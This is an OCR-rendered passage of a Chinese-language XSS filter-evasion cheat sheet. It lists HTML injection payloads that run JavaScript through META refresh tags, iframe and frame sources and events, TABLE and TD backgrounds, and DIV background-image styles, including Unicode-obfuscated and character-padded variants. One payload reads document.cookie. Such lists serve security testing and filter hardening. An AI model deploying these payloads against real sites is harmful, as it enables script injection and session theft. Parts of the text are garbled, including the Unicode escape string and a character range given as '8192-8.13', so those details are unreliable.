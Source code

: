     <META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">

-----
##额外url参数的META##
如果当前网页试图去查找URL参数是否以"http://" 开始，你可以用下列技术绕过（被 Moritz Naumann提出）

    <META HTTP-EQUIV="refresh" CONTENT="0; URL=http://;URL=javascript:alert('XSS');">

-----
##IFRAME##
如果一个iframes被允许，那么同时可能会存在大量其他xss问题

    <IFRAME SRC="javascript:alert('XSS');"></IFRAME>

-----
##IFRAME 基于事件##
IFrames或其他元素可以使用事件如下（提出被 David Cross）

    <IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME>

----
##FRAME##
Frames有一系列像iframes一样的问题

    <FRAMESET><FRAME SRC="javascript:alert('XSS');"></FRAMESET>

----
##TABLE##
```
    <TABLE BACKGROUND="javascript:alert('XSS')">
```
------
##TD##
像上面一样，TD也可以通过 BACKGROUND 来包含javascript xss向量 
```
    <TABLE><TD BACKGROUND="javascript:alert('XSS')">
```
-----
##DIV background-image##

    <DIV STYLE="background-image: url(javascript:alert('XSS'))">

----
##使用 unicoded编码xss利用代码在DIV background-image##
它是被轻微的修改去混淆 url 参数。最早被发现被 Renaud Lifchitz用于攻击hotmail。
    <DIV STYLE="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029">

-----
##附加额外字符在DIV background-image##
Rnaske开发了一个XSS fuzzer去探测可以在开括号和javascript之间加入哪些额外字符在 IE和安全模式下的 Netscape 8.1。这里都是一些十进制的字符，但是你也可以用十六进制来填充。（下面这些编码字符可以被使用：1-32, 34, 39, 160, 8192-8.13, 12288, 65279）

    <DIV STYLE="background-image: url(&#1;javascript:alert('XSS'))">
    